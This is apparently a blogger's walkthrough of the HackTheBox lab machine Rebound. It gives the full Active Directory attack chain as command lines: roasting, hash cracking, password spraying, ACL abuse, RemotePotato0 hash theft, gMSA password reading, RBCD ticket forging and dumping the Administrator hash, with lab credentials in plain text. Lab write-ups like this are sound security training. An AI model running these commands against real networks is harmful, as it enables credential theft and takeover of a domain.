

+++
title = 'HackTheBox Rebound Write-Up - Insane!'
date = 2024-04-26T01:30:02+03:00
draft = false
+++

## Introduction



[Rebound](https://app.hackthebox.com/machines/Rebound) is an incredible insane HackTheBox machine created by [Geiseric](https://app.hackthebox.com/users/184611). It's a pure Active Directory box that feels more like a small multi-machine lab than just another singular machine.

I completed it back during the first week that it was an active seasonal box and it's the most fun I've had on the platform to date.

It tests a vast variety of Active Directory knowledge and attacks, from the basics of AS-REP roasting, through abusing ACLs, to resource-based constrained delegation.

Strap in, this is gonna a long one.
## Initial Enumeration

Despite the box's designation as insane, the process doesn't change, we'll start with a basic Nmap scan.

`nmap -Pn -p- --min-rate 1000 10.10.11.231 -v`


Nmap comes back with a lot of open ports, which immediately let us know that we're dealing with an Active Directory environment and which we'll proceed to enumerate further.

`nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 10.10.11.231`


A thorough scan reveals the domain name `rebound.htb` along with an alternative name on the TLS certificate for the Domain Controller `dc01.rebound.htb`.

We're going to add these to our `/etc/hosts` file.

```
10.10.11.231 rebound.htb dc01.rebound.htb dc01
```
### SMB

We're going to continue by enumerating SMB with `netexec`, checking for anonymous and guest access, access to shares, and trying RID cycling to brute-force usernames.

```shell
netexec smb 10.10.11.231 -u anonymous -p ''
netexec smb 10.10.11.231 -u guest -p ''
```


We seem to have both anonymous and guest access, so let's try looking for shares and spidering anything we find with netexec's `spider_plus` module.

```shell
netexec smb 10.10.11.231 -u guest -p '' --shares
netexec smb 10.10.11.231 -u guest -p '' -M spider_plus
```


The only non-default share we find is `Shared` to which we have READ access.


Spidering, however, doesn't come up anything useful for us.

Next, let's attempt RID cycling - a method that allows attackers to enumerate domain objects by brute-forcing or guessing RIDs and SIDs, based on the fact that RIDs are sequential.

```shell
netexec smb 10.10.11.231 -u guest -p '' --rid-brute 10000
```

We're also going to add `10000` to our command, as I believe by default, `netexec` enumerates users up to RID 5000. We wouldn't want to miss anything.


This comes back with a good amount of users that we're going to save for use in a `usernames.txt` file.

> We do that manually or very quickly with the following command. We only need to quickly erase what remains from the group names from the top of that list.

```shell
netexec smb 10.10.11.231 -u guest -p '' --rid-brute 10000 | awk '{print $6}' | cut -d "\\" -f 2 >> usernames.txt
```


### AS-REP Roasting

Since we don't have any kind of password to work with, but we do have usernames, the next logical step would be to try AS-REP roasting, as in look for users that have "Don't require Kerberos pre-authentication" set.

Running `GetNPUsers.py` from the Impacket toolkit with the `usersfile` option allows us to go through our entire user list. 

```shell
impacket-GetNPUsers -dc-ip 10.10.11.231 -request 'rebound.htb/' -usersfile usernames.txt -format hashcat
```


This returns a hash for the user `jjones` which we can proceed to save to a file and attempt to crack with Hashcat and mode `18200` with `rockyou.txt`, but since the hash does not crack and this is HTB, we can assume that it's not intended to be cracked.
#### Troubleshooting - KRB_AP_ERR_SKEW

The most common that occurs again and again when working with an Active Directory box is the infamous "clock skew too great" aka _KRB_AP_ERR_SKEW_.

There are three ways to deal with it:

```shell
# To my knowledge at least, considered deprecated
sudo ntpdate -u $DCIP
# What always works for me
sudo rdate -n $DCIP
# Final option that never fails - prepending commands with faketime such as:
faketime -f +7h [insert command]
```
## No password, what now?

### Method 1 - Leveraging Overly Permissive Guest Account

When I first completed the box, I was quite stumped as to how to proceed and kept experimenting with different ways to move forward.

To this day, I kind of think this may not be entirely intended, but at the date of writing it still works, so I consider it a valid method to proceed.

We can use `GetUserSPNs` from Impacket to perform a Kerberoasting attack without supplying a password with the Guest account.

```shell
impacket-GetUserSPNs -dc-ip 10.10.11.231 -target-domain rebound.htb -usersfile usernames.txt  rebound.htb/guest -no-pass
```


This returns two hashes for the accounts `ldap_monitor` and `delegator$`. We can save the hashes to a file and try cracking them with Hashcat and mode `13100`.

```shell
hashcat -m 13100 krb5tgs-hashes.txt /usr/share/wordlists/rockyou.txt
```

This results in us obtaining the password for the `ldap_monitor` account.
### Method 2 - Kerberoasting Without Pre-Authentication

If you're using an up-to-date version of Impacket, you can also leverage the `jjones` account and the `-no-preauth` option of `GetUserSPNs`. At the time the machine came out, getting that to work was a more involved process which required the specific fork that contained the implemented [pull request](https://github.com/fortra/impacket/pull/1413). The pull request was merged with the master branch just under a month later.

The pre-requisites for this attack are the following:

1. A user with "Don't require Kerberos pre-authentication set
2. A service to target for the attack
3. AS-REQ to obtain a ticket for that service

The resulting ticket can only be used for cracking in an attempt to obtain a password.

````shell
impacket-GetUserSPNs -no-preauth "jjones" -usersfile usernames.txt -dc-host 10.10.11.231 rebound.htb/ -request
````


The outcome is the same.
## Domain Enumeration with BloodHound

Now that we finally have a valid pair of credentials, we can use an ingestor to collect data about the domain and examine potential attack paths in BloodHound.

`bloodhound-python` is my favourite, as it doesn't require obtaining a shell or dropping files to disk.

Back when I completed the box on an older version of Kali and with an older version of `bloodhound-python`, the command would run without issue when using the `-c All` option. I can still replicate that today from that same VM.

```shell
bloodhound-python --zip -c All -u ldap_monitor -p '1GR8t@$$4u' -dc dc01.rebound.htb -d rebound.htb -ns 10.10.11.231 --dns-timeout 30 --dns-tcp
```


Currently, however, we need to run the command without `ObjectProps`, otherwise it crashes.

```shell
bloodhound-python --zip -c Group,LocalADmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn -u ldap_monitor -p '1GR8t@$$4u' -dc dc01.rebound.htb -d rebound.htb -ns 10.10.11.231 --dns-timeout 30 --dns-tcp
```


Once we import the resulting `.zip` file into BloodHound and analyse the database, we get a very interesting exploitation path when selecting **Shortest Paths to Unconstrained Delegation Systems**. 


However, we don't currently have a way to reach any of the users (`ppaul`, `fflock` or `oorend`) in order to follow that path. Let's table this for now and continue with our enumeration.
## Good 'Ol Password Re-Use

Password re-use is always something we need to keep in mind, it's incredibly common to have multiple accounts using the same password, and the `ldap_monitor` service account that we have access to is also quite likely to be a shared account, so let's see if there's anyone else with that password. 

```shell
netexec smb 10.10.11.231 -u usernames.txt -p '1GR8t@$$4u' --continue-on-success
```

And we get a hit for the user `oorend`.


### PowerView, but make it Python

At the time, BloodHound didn't reveal anything of interest and I spent some time wondering how to proceed and wishing I could run PowerView. Currently, BloodHound shows the path forward as evidenced in the screenshot above, whereby `oorend` has `AddSelf` over the `ServiceMgmt` group. But let's explore how I proceeded when it didn't.

Essentially on a whim I decided to google `powerview python` and what do you know, of course that's a thing. There's two GitHub repositories that should immediately come up and I decided to check out [this one](https://github.com/aniqfakhrul/powerview.py) by `aniqfakhrul`. I've kept this tool in my arsenal ever since.

Follow the instructions in the repo, I personally prefer to use `pipx` for the installation. Make sure you also have the `libkrb5-dev` package installed.

```shell
sudo apt install -y libkrb5-dev
sudo pipx install 'git+https://github.com/aniqfakhrul/powerview.py'
```

Now we can use either of the accounts we have credentials for to authenticate

```shell
powerview rebound.htb/ldap_monitor:'1GR8t@$$4u'@10.10.11.231 --dc-ip 10.10.11.231 -k
```


Note that without the `-k` flag for Kerberos authentication, the attempt will fail.

We can run normal PowerView commands and enumerate users and ACLs. The simplest thing we can do is run the `Get-DomainObjectAcl` command for the users we have access to.

```shell
Get-DomainUser -Identity ldap_monitor
Get-DomainUser -Identity oorend
```


```shell
Get-DomainObjectAcl -SecurityIdentifier S-1-5-21-4078382237-1492182817-2568127209-7681
Get-DomainObjectAcl -SecurityIdentifier S-1-5-21-4078382237-1492182817-2568127209-7682
```


This is how obtain the same information which is particular interest to us - oorend has `Self` aka `Self-Membership` rights over the `ServiceMgmt` group. This is a privilege that enables the user to add themselves to a group. 

This is a different way to reach and follow that exploitation path we saw earlier in BloodHound.
#### ACLs with NetExec

I subsequently discovered that we can get the same information with NetExec as well, we just have to be quite specific, but that could come in handy if we already suspect what the way forward may be:

```shell
netexec ldap dc01.rebound.htb -u oorend -p '1GR8t@$$4u' -k --kdcHost 10.10.11.231 -M daclread -o TARGET=ServiceMgmt PRINCIPAL=oorend ACTION=read
```


## Exploitation Path

Going back to BloodHound, the `ServiceMgmt` group has `GenericAll` rights over `Service Users`, which means we can now add our user to that group, change the password of the user `winrm_svc` and log into the Domain Controller.


### BloodyAD for Active Directory privilege escalation

Here is where I found another incredible gem of a tool that has permanently joined my personal arsenal and that's [BloodyAD](https://github.com/CravateRouge/bloodyAD). It's largely based on Impacket and can do a lot of the same things, but with simpler and friendlier syntax, and a fantastic help menu that will quickly show you how commands work.

It will allow us to quickly execute the attack path, which is of importance here as there's a script that restores default user permissions running every 10 minutes or so.

All we need is three commands in quick succession:

```shell
bloodyAD -u oorend -p '1GR8t@$$4u' -d rebound.htb --host 10.10.11.231 add groupMember ServiceMgmt oorend

bloodyAD -u oorend -p '1GR8t@$$4u' -d rebound.htb --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend

bloodyAD -u oorend -p '1GR8t@$$4u' -d rebound.htb --host 10.10.11.231 set password winrm_svc Whatever13
```


### User Flag

Having obtained control over the `winrm_svc` account, we can now finally get a shell via `Evil-WinRM` and get the user flag.


## Enumeration with Shell Access as winrm_svc

There's no unusual folders or programs, no files of interest, no suspicious internal open ports. If we check running processes with `ps` or `Get-Process`, however, we notice that there are various processes with Session ID 1 instead of the usual 0 we expect. This could mean that someone else is logged in.

Once more, past and present diverge.

When I completed the box, I proceeded by uploading and running `SharpHound` on the machine.


This was able to collect data about the other session on `DC01`, which is the user `tbrady`


Now, that already shows up in the initial run of BloodHound.

I found this Cypher query [here](https://phackt.com/pentesting-bloodhound-cypher-queries) that you can run to quickly check All computer with their users logon sessions:

```txt
MATCH c=(C:Computer)-[r2:HasSession*1]-(U:User)  WHERE U.name =~ ".*" return c
```


We need a way to access that session or hijack it. A lot of research led me to the [Remote Potato](https://github.com/antonioCoco/RemotePotato0) exploit, which can do help us do exactly that - grab and steal NTLMv2 hashes of every user logged onto a machine.
### Remote Potato

The wiki itself goes into the technical details of how the exploit works:

>It abuses the DCOM activation service and trigger an NTLM authentication of any user currently logged on in the target machine. It is required that a privileged user is logged on the same machine (e.g. a Domain Admin user). Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource. RemotePotato0 also allows to grab and steal NTLMv2 hashes of every user logged on a machine.

We're going to use the second module, in order to grab the hash we require.

The exploit requires a bit of setup which is briefly laid out in the GitHub repo.

We need to run `socat` in order to set up forwarding between port 9999 (default for the exploit) on the remote machine and port 135 on our local machine as we can't listen on that port on the Rebound machine itself and RPC connections like this only target port 135.

```shell
socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.11.231:9999
```
#### Module 2 - RPC capture (hash) server + potato trigger

With that out of the way, we can now upload and run our exploit with the following options:

```powershell
.\RemotePotato0.exe -m 2  -r 10.10.16.12 -x 10.10.16.12 -s 1
```

To run it, I’ll use the following options:

- `-m 2` - method 2, “Rpc capture (hash) server + potato trigger”
- `-s 1` - the session of the user to target
- `-x 10.10.16.12` - rogue Oxid resolver IP to our machine
- `-r 10.10.16.12` - remote relay server IP to our machine


This dumps a hash for the `tbrady` user, which we can then attempt to crack with Hashcat and mode `5600`:

```shell
hashcat -m 5600 t.brady /usr/share/wordlists/rockyou.txt
```

We're successful and now have credentials for that user!
### ReadGSMAPassword

Going back to Bloodhound, we can see under **First degree object control** the `tbrady` user has `ReadGMSAPassword` over the `delegator$` account. This password is stored in the `msDS-ManagedPassword` attribute of a group managed service account and is calculated on-demand by the Domain Controller.


We can do accomplish this in a variety of ways:
#### netexec

The easiest would be with `--gmsa` flag in netexec:

```shell
netexec ldap 10.10.11.231 -u tbrady -p '543BOMBOMBUNmanda' -k --gmsa
```


#### BloodyAD

And of course, bloodyAD can accomplish this as well:

```shell
bloodyAD -u tbrady -d bloody -p '543BOMBOMBUNmanda' --host 10.10.11.231 get object 'delegator$' --attr msDS-ManagedPassword
```


#### gMSADumper and GMSAPasswordReader

We could also use a tool developed in Python for this purpose called [gMSADumper](https://github.com/micahvandeusen/gMSADumper) or opt to upload the [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) `.exe` instead

Any of those tools will result in us obtaining the NTLM hash for the `delegator$` account.
## Final Stretch - Delegation Attack

What follows was the most difficult for me to figure out properly, I needed some hints from the community and I'm still not sure I grasp the entire process, but let's try to go through it together.

I'm very much look forwarding to doing the Kerberos Attacks module on HTB Academy to gain a better understanding of the topic.
### Enumeration

We can see in Bloodhound some information about delegation when we check the `delegator$` account.


It has the SPN of `browser/dc01.rebound.htb` and is allowed to delegator for `http/dc01.rebount.htb`

`findDelegation` will confirm this information and mark the delegation type as **Constrained** but without protocol transition.

```shell
impacket-findDelegation 'rebound.htb/delegator$' -dc-ip 10.10.11.231 -k -hashes :43e9069a73081ecfcbe1514e1d4e3bc8
```


What this means is that a service can impersonate users to access resources on other servers on behalf of the original user. However, without protocol transition, the service can only access resources on the delegated server as the original user.

That means that we wouldn't be able to abuse this just by requesting a ticket with `getST` from Impacket.
### Resource-Based Constrained Delegation

We can still abuse this by trying to leverage [RBCD](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd) instead. This form of delegation allows a service to delegate access to specific resources rather than a full set of privileges.

To proceed with the attack, it requires us to edit the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the `delegator$` to add any domain user that we control and request a ticket for the **browser SPN** to then impersonate the Domain Controller machine account `DC01$` with the http SPN, dump secrets and obtain the Administrator hash.

First we're going to request a TGT with `getTGT`, which will be saved as a `.ccache` file.

```shell
impacket-getTGT rebound.htb/delegator$ -dc-ip 10.10.11.231 -hashes :43e9069a73081ecfcbe1514e1d4e3bc8
```


Now we need to set the `KRB5CCNAME` to that ticket in order to use it with Kerberos with the next command. We'll keep doing that as required.

```shell
export KRB5CCNAME='delegator$.ccache'
```

Next, we're going to use Impacket's `rbcd` script in order to set an account as trusted to delegate for `delegator$`.  The requirement for this is that it be another account with at least one SPN set, which leads us back to one of the first accounts we compromised - `ldap_monitor`.

```shell
impacket-rbcd -no-pass -k 'rebound.htb/delegator$' -delegate-to 'delegator$' -delegate-from ldap_monitor -dc-ip dc01 -use-ldaps -action write 
```


We can confirm that this was successful by running `findDelegation` once again.

```shell
impacket-findDelegation 'rebound.htb/delegator$' -dc-ip 10.10.11.231 -k -hashes :43e9069a73081ecfcbe1514e1d4e3bc8
```


Next, we're going to request a TGT and then a Service Ticket for the `ldap_monitor` account with which we'll attempt to impersonate the `dc01$` machine account. We can't directly impersonate the Administrator account as it's marked as sensitive and cannot be delegated.

```shell
impacket-getTGT 'rebound.htb/ldap_monitor:1GR8t@$$4u' -dc-ip 10.10.11.231

export KRB5CCNAME=ldap_monitor.ccache 

impacket-getST -spn "browser/dc01.rebound.htb" -impersonate "dc01$" "rebound.htb/ldap_monitor" -k -no-pass 
```


For the next step we'll request a Service Ticket for the SPN `http/dc01.rebound.htb` and feed it the recently obtained `.ccache`  ticket for `dc01$` with the help of the `-additional-ticket` flag. 

```shell
impacket-getST -spn 'http/dc01.rebound.htb' -impersonate "dc01$" -additional-ticket 'dc01$@browser_dc01.rebound.htb@REBOUND.HTB.ccache' 'rebound.htb/delegator$' -k -no-pass -hashes :43e9069a73081ecfcbe1514e1d4e3bc8 
```


Finally, we can use this final `.ccache` ticket with `secretsdump` which lets us obtain the administrator hash and get a shell with Evil-WinRM for the root flag.

```shell
export KRB5CCNAME='dc01$@http_dc01.rebound.htb@REBOUND.HTB.ccache' 

impacket-secretsdump -no -k dc01.rebound.htb -just-dc-user administrator 

```


```shell
evil-winrm -i 10.10.11.231 -u Administrator -H 176be138594933bb67db3b2572fc91b8
```


---
Somehow we've actually reached the end. This box was a doozy! If you made it this far, however unlikely that is, thank you for reading!